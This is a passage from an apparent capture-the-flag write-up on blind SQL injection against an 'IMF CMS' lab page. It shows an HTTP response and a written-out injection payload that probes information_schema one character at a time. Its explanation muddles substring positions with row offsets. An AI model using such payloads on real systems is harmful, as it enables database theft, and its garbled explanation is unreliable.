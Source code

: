 remember to url encode the request

here's the response from this page
```php
HTTP/1.1 200 OK
Date: Sat, 06 May 2023 15:57:59 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 285
Connection: close
Content-Type: text/html; charset=UTF-8

<html>
<head>
<title>IMF CMS</title>
</head>
<body>
<h1>IMF CMS</h1>
Menu: 
<a href='cms.php?pagename=home'>Home</a> | 
<a href='cms.php?pagename=upload'>Upload Report</a> | 
<a href='cms.php?pagename=disavowlist'>Disavowed list</a> | 
Logout
<br /><br/>
</body>
</html>

```

as you can see i am able to execute true or bad requests

let's try to find a possible data from the page 

first we have to find 

the tables

we will inject this string 
```bash
' and (select substring(schema_name,1,1) from information_schema.schemata limit 0,1)='i
```

where: 

```bash 
' and: This is a character string used to concatenate a WHERE clause with the SQL query. The presence of this character string indicates that a WHERE clause is being added to the SQL query.

(select substring: This indicates that a subquery is being performed within the main query. The subquery uses the substring function to extract a substring from another string.

(schema_name,1,1): This is the string from which a substring is to be extracted. In this case, the first character of each schema name in the information_schema.schemata table is being extracted. If we want to play with positions in the data table, we would indicate (schema_name,2,1) because the first table is almost always the information schema, then the 2 would refer to filtering the second character of the information schema table where we would change the search instead of ='i it would be ='n. Another important thing to mention is that if we want to filter by another table, we would change the value to (schema_name,1,2), where we would filter by the first word of the 2nd table.

from information_schema.schemata: This indicates that information is being selected from the information_schema.schemata table. This table contains information about schemas in the database.

limit 0,1): This limits the number of rows returned in the query. In this case, the query is limited to the first row found in the table.

```